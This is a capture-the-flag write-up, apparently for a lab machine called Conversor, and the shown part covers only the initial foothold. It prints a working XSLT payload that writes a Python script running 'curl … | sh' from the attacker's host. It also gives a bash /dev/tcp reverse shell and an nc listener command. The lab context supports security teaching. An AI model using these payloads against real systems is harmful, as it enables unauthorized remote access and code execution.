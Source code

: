 ```yaml
---

# COnversor (Easy): 10.10.11.92

![Icon](Images/coversoricon.png)


---
```


## Quick Overview

a new linux machine, with easy difficulty, that put in front of us :

1. **XSLT Exploitation** → Database Access → **USER.TXT**
2. **Needrestart 3.7 Privilege Escalation** → [CVE-2024-48990 Auto Exploit](https://github.com/Serner77/CVE-2024-48990-Automatic-Exploit) → *Thanks to @Serner77* → **ROOT.TXT**

---

## USER.TXT

### NMAP Enumeration

as with every machine we start with the nmap scan, that show as a classic 22/80 ports.

![Icon](Images/nmapscan.png)

we go to conversor web page, as first sight we see XML converation via XSLT, with a small round with the discover the source code in the About page.

in the Source code we got some valuabla informations, the most imprtants are :

1. XSLT is exploitable
2. you can run python scripts in the scripts directory, you can find this info in install.md
3. the users database is in instance directory

so first of all we will start with a reverse shell, by writing a python script with the help of xslt file, that will use curl to connect to our machine, that have aleardy a python http server prepared, to copy a reverse shell script, and lunche it to get our initial login.

so upload this XSLT File:

```XSLT
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:exploit="http://exslt.org/common"
    extension-element-prefixes="exploit"
    version="1.0">
<xsl:template match="/">
<exploit:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import os
os.system("curl 10.10.14.203:8000/shell.sh|sh")
</exploit:document>
</xsl:template>
</xsl:stylesheet>
```

and we prepare a python http server by using the command `python3 -m http.server`, where the reverse shell script exist:

```sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.203/9999 0>&1'
```

and last thing, nc listener `nc -nlvp 9999`.

and by that we get our initial access, as you can see:

![Icon](Images/xsltrevshell.png)







